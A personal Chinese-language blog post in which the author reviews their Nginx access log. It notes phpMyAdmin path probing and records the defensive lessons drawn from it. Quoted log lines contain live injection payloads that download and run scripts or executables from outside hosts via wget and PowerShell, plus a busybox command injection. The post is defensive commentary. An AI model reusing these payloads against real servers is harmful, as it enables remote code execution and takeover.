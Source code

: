 ```lw-blog-meta
{"title": "读Nginx日志有感", "date": "2019-07-18", "tags": ["Web"], "brev": "【网络安全真的很重要】虽然在学习各种框架的时候，都会有五花八门的安全提示，但是我真的从没有认真去考虑过安全问题。这几天看了看自己Nginx服务器的日志，感觉有点后怕。"}
```

## 还好我没有学PHP

肉眼所见，几乎全部都是针对`php`的攻击，主要分两种：

### 探测漏洞文件

可以看到从某个ip发来了无数个请求，请求各种看起来会很常见的php文件，像这样：

```shell
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmina/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMydmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmins/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:56 +0000] "GET /phpMyAdmin._/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpMyAdmin._2/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin2222/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin3333/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /php2MyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpiMyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpNyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
```

主要思路就是瞎猫碰死耗子，看看能不能蒙出你的管理页面（或者数据库之类的脚本），如果真的有的话，估计还有后续手段。

然后我们查一下这个ip地址，显示的信息是supercloud.cc（香港 环球全域电讯）的机房，
那估计是黑客在这里租了一个服务器作为跳板进行攻击了。

**收获：隐藏好你的管理页面，最好不要对外公开（或者限定ip访问）。**

### 注入脚本攻击

还可以看到有些请求是在url中附带了脚本命令，像这样：

```shell
89.248.174.198 - - [17/Jul/2019:23:56:44 +0000] "GET /shell?cd+/tmp;wget+http:/\x5C/89.248.174.198/jaws.sh+-O+-+>smoke.sh;chmod+777+smoke.sh;sh+smoke.sh HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-"

49.234.49.224 - - [17/Jul/2019:19:53:26 +0000] "GET /public/hydra.php?xcmd=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start%20%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe HTTP/1.1" 404 555 "http://49.234.46.113:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start %SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe" "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)" "-"

82.117.191.2 - - [17/Jul/2019:16:44:21 +0000] "GET /webadmin/script?command=|busybox HTTP/1.1" 400 157 "-" "Mozilla/5.0" "-"
```

主要思路就是，看能不能通过你的web服务，在你的主机上执行指定的命令。例如`chmod+777+smoke.sh`，
`wget+http:/\x5C/89.248.174.198/jaws.sh`，`DownloadFile('http://fid.hognoob.se/download.exe'`
这种，就算是外行也能感觉到很危险吧。

**收获：不要使用`root`权限用户运行web服务；无论何时，必须对用户提交的任何数据进行检查。**

这让我想起了`uWSGI`日志中的警告：

```text
uWSGI running as root, you can use --uid/--gid/--chroot options
*** WARNING: you are running uWSGI as root !!! (use the --uid flag) ***
```

有点不寒而栗的感觉。看来以后还是要乖乖听取前人的话才是。

## Good News

但在Internet上也不全是坏事。

我也看到了来自百度的问候：

```shell
123.125.67.156 - - [18/Jul/2019:02:50:16 +0000] "GET /robots.txt HTTP/1.1" 404 555 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.93 Safari/537.36" "-"

220.181.108.153 - - [18/Jul/2019:02:53:57 +0000] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)" "-"
```

非常友善地自报家门，甚至还会敲敲门（robot.txt）。

这也提醒了我，我还没设置`robot.txt`文件呢。不过我这也没什么秘密，直接建立一个空文件就好了。
详情参考[解释](https://www.robotstxt.org/robotstxt.html)。

## 小结

放眼望去基本都是针对`php`的攻击（没办法，谁让你这个`/php?xxxxx`是如此地个性呢）。
看完之后甚至想笑——还好我没学php。

当然，也有一些针对nginx的，还有一些看不出手段，但是也是通过脚本注入的形式来控制你的服务器。

相应的我觉得也有办法，使用虚拟机/容器技术，刚好就可以很大程度上的减少这类攻击带来的损失。

不过最好的还是要防患于未然了！

## 后记 （2020-05-27）

现在回头来看，这些所谓的”攻击“其实**可能**是云服务商自带的一些漏洞扫描，主要是扫描一些常见的低级错误。不用过于大惊小怪。不过谨慎些总是好的。
